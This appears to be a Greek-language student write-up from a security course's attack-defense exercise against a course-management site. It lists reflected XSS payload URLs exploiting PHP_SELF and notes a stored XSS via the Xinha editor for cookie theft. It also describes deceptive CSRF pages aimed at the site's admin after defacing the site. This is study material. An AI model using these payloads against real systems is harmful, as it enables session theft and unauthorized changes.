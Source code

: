 ```

	header("Location: http://error-404.csec.chatzi.org/");
?> 
```
#### Που βρήκαμε κενό για XSS ;

* Στον <b>xinha editor</b>, ενεργοποιώντας την επιλογή του <b>html editor</b>.<br> Ουσιαστικά, αυτό είναι αρκετά ισχυρό attack καθώς μπορεί να κλέψει το cookie κάθε χρήστη που έχει ανοίξει την συγκεκριμένη σελίδα (π.χ [Περιοχή Συζητήσεων](http://error-404.csec.chatzi.org/modules/phpbb/viewforum.php?forum=1), αν ανοίξεις το θέμα με τίτλο <b>Test3</b> θα τρέξουν οι κώδικες που αναφέρθηκαν προηγουμένως).<br><br>
* Στα ακόλουθα links:
	* ```http://error-404.csec.chatzi.org/modules/auth/courses.php/%22%3E%3Cscript%3Ealert(1)%3C/script%3E```
	* ```http://error-404.csec.chatzi.org/modules/profile/profile.php/%22%3E%3Cscript%3Ealert(1)%3C/script%3E```
	* ```http://error-404.csec.chatzi.org/modules/phpbb/index.php/'%3E%3Cscript%3Ealert(1)%3C/script%3E```
	* ```http://error-404.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=1&forum=1/%27%3E%3Cscript%3Ealert(1)%3C/script%3E```
	* ```http://error-404.csec.chatzi.org/modules/admin/listusers.php/%22%3E%3Cscript%3Ealert(1)%3C/script%3E```
	* ```http://error-404.csec.chatzi.org/modules/admin/listcours.php/%22%3E%3Cscript%3Ealert(1)%3C/script%3E```
	* ```http://error-404.csec.chatzi.org/modules/admin/addfaculte.php/%22%22%3E%3Cscript%3Ealert(1)%3C/script%3E```
	* ```http://error-404.csec.chatzi.org/modules/agenda/myagenda.php/%22%22%3E%3Cscript%3Ealert(1)%3C/script%3E```
<br><br>
* Μπορούσαμε να βάλουμε και άλλα links αλλά η λογική είναι η ίδια (εκμεταλλευτήκαμε την μη προστασία της μεταβλητής ```$_SERVER['PHP_SELF']``` και της ```φόρμας αλλαγής γλώσσας```). 
<br><br>
* Τα XSS τα δοκιμάσαμε μόνοι μας, αφού είχαμε ήδη κάνει deface το αντίπαλο site και είχαμε πρόσβαση στον μη κρυπτογραφημένο κωδικό του drunkadmin. 

### Cross-Site Request Forgery (CSRF)

Εφόσον αποκτήσαμε πρόσβαση στον drunkadmin, μας δόθηκε η οδηγία να δοκιμάσουμε τα CSRF attacks μόνοι μας, χωρίς να στείλουμε email. Γνωρίζοντας λοιπόν τις φόρμες που δεν έχουν προστατευτεί σωστά, εστιάσαμε σε αυτές και δοκιμάσαμε να κάνουμε <b>CSRF attack με post request</b> σε 2 φόρμες, δημιουργώντας αντίστοιχα τις 2 ιστοσελίδες κάτω από τον φάκελο puppies για τις φόρμες αυτές.
<br><br>
Να τονιστεί πως οι φόρμες του site puppies είναι αρκετά ρεαλιστικές, με στόχο να μην αντιληφθεί ο drunkadmin πως σχετίζονται με επιθέσεις στο site του. Για να δουλέψουν, αρκεί να κάνει ένα click στο κουμπί που υπάρχει στην σελίδα και εννοείται να είναι ήδη συνδεδεμένος στο site του. Οι φόρμες μπορούν να βρεθούν στα ακόλουθα links: <br>

* ```http://trojanponies.puppies.chatzi.org/new_assignment.php``` : Δημιουργεί μία νέα εργασία <i>lololol</i> στο μάθημα (πρέπει ο drunkadmin να έχει κλικάρει το μάθημα).
* ```http://trojanponies.puppies.chatzi.org/new_page.php``` : Δημιουργεί έναν εξωτερικό σύνδεσμο <i>Puppies</i> στο αριστερό μενού (πρέπει ο drunkadmin να έχει κλικάρει το μάθημα).
